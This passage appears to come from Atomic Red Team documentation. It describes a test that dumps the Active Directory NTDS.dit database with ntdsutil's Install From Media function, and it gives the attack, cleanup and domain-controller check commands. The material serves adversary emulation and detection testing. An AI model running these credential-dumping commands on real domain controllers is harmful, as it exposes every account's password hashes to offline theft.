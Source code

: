 ```cmd
```




<br/>
<br/>

## Atomic Test #3 - Dump Active Directory Database with NTDSUtil
This test is intended to be run on a domain Controller.

The Active Directory database NTDS.dit may be dumped using NTDSUtil for offline credential theft attacks. This capability
uses the "IFM" or "Install From Media" backup functionality that allows Active Directory restoration or installation of
subsequent domain controllers without the need of network-based replication.

Upon successful completion, you will find a copy of the ntds.dit file in the C:\Windows\Temp directory.

**Supported Platforms:** Windows


**auto_generated_guid:** 2364e33d-ceab-4641-8468-bfb1d7cc2723





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_folder | Path where resulting dump should be placed | path | C:&#92;Windows&#92;Temp&#92;ntds_T1003|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
mkdir #{output_folder}
ntdsutil "ac i ntds" "ifm" "create full #{output_folder}" q q
```

#### Cleanup Commands:
```cmd
rmdir /q /s #{output_folder} >nul 2>&1
```



#### Dependencies:  Run with `command_prompt`!
##### Description: Target must be a Domain Controller
##### Check Prereq Commands:
```cmd
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ProductOptions  /v ProductType | findstr LanmanNT
```
##### Get Prereq Commands:
```cmd
echo Sorry, Promoting this machine to a Domain Controller must be done manually
```
